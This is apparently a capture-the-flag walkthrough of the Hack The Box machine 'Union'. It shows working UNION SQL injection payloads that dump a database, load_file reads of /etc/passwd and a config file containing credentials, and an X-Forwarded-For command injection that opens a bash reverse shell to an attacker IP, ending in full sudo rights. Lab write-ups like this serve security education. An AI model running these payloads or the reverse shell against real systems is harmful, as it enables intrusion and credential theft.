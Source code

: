 # Union

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.75
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:22 EDT
Nmap scan report for 10.129.96.75
Host is up (0.0088s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

The name implies I should be looking for some type of UNION SQL Injection somewhere...

### UNION Injection

This reveals a simple website that takes one user input:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

If we enter anything, it says that we are eligible to compete in the tournament and gives us a link to `challenge.php`.&#x20;

<figure><img src="../../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

Since this was a UHC box, `sqlmap` revealed nothing to me, so we have to do this manually. I tried some basic SQL Injection with UNION, and found that it was indeed vulnerable to SQL Injection:

```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select user(); -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

So now we need to enumerate the database and grab the flag.:

{% code overflow="wrap" %}
```
$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(schema_name) from information_schema.schemata; -- -"
mysql,information_schema,performance_schema,sys,november

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(table_name) from information_schema.tables WHERE table_schema='november'; -- -"
flag,players

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(column_name) from information_schema.columns WHERE table_schema='november'; -- -"
one,player

$ curl -X POST http://10.129.96.75/ -d "player=user'union select group_concat(one) from flag; -- -"
UHC{F1rst_5tep_2_Qualify}
```
{% endcode %}

Once we submit the flag, we have SSH access, but we still have no password.

<figure><img src="../../../.gitbook/assets/image (620).png" alt=""><figcaption></figcaption></figure>

### SSH Creds

Since we still had UNION injection, we can use the `load_file` function to have LFI.&#x20;

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/etc/passwd'); -- -"
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<TRUNCATED>
```

First we need to identify what files are present on the site. I know that it is PHP-based, so let's start there.&#x20;

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.75 -x php -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.75
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/05/08 11:38:12 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/firewall.php         (Status: 200) [Size: 13]
/index.php            (Status: 200) [Size: 1220]
/index.php            (Status: 200) [Size: 1220]
```

There's a `config.php` file, and we can read that:

```
$ curl -X POST http://10.129.96.75/ -d "player=user' union select load_file('/var/www/html/config.php'); -- -"
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

With that, we can SSH into the machine.

<figure><img src="../../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Command Injection --> Sudo

There's another user on the machine:

```
uhc@union:/home$ ls -la
total 16
drwxr-xr-x 1 root root  12 Nov  8  2021 .
drwxr-xr-x 1 root root 164 Jul  2  2021 ..
drwxr-xr-x 1 htb  htb  158 Nov  8  2021 htb
drwxr-xr-x 1 uhc  uhc  108 Nov  8  2021 uhc
```

There isn't much that this user can access. So let's view the website files. The `firewall.php` file is the one that provided us with access to SSH, and it has some vulnerable code:

```php
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

```

This uses the `X-Forwarded-For` HTTP header variable and passes it directly into a command with `sudo`. Using this request, we can get another reverse shell as `www-data`.

```http
GET /firewall.php HTTP/1.1
Host: 10.129.96.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.96.75/challenge.php
Connection: close
X-Forwarded-For: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1";
Cookie: PHPSESSID=jg4bjv3vg5pol32mv1teq3i0pp
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

When checking our `sudo` privileges, this is what we see:

```
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>
